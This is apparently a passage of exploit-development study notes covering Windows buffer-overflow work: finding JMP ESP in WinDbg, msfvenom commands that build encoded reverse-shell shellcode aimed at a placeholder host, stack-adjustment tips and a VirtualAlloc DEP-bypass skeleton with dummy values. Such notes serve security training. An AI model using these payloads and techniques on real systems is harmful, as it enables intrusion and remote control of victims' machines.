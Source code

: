 ```bash
# Find JMP ESP instruction between address range
windbg> s -[1]b start_range end_range FF E4

# List modules to get the address range
windbg> lm

# List modules with protection status
windbg> .load narly
windbg> !nmod
```

##### Generate Shellcode

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.X.Y LPORT=443 -f c
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.X.Y LPORT=443 -f 
c –e x86/shikata_ga_nai -b "\x00\x.."
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.X.Y LPORT=443
EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x.."
```

##### Other Tips

>   -   Find a register that indicates to start of shellcode and use `call reg` or `JMP reg` instruction 
>   -   Can use `JMP` backward (aka Negative `JMP`)
>   -   Use NOPs (`\x90`) to avoid crashes!
>   -   Use Process Hacker and check Properties tab of binary for protections and loaded modules.
>   -   If address of module contain null-byte (`\x00`), overwrite by ignoring the (`\x00`).
>       -   E.g: address of instruction = `00414E7A`, then set the `EIP` as `414E7A`.

##### Island Hopping Bypass Technique

```
# Calculate length of bytes between esp and start of shellcode. Thereafter, add the value to esp/sp.
windbg> ?: shellcode_address - @esp

kali$ msf-metasm_shell
> add sp, value
```

### DEP Bypass

##### `VirtualAlloc`

```python3
va  = pack("<L", (0x45454545)) # dummy VirutalAlloc Address
va += pack("<L", (0x46464646)) # Shellcode Return Address
va += pack("<L", (0x47474747)) # # dummy Shellcode Address
va += pack("<L", (0x48484848)) # dummy dwSize 
va += pack("<L", (0x49494949)) # # dummy flAllocationType 
va += pack("<L", (0x51515151)) # dummy flProtect 
```
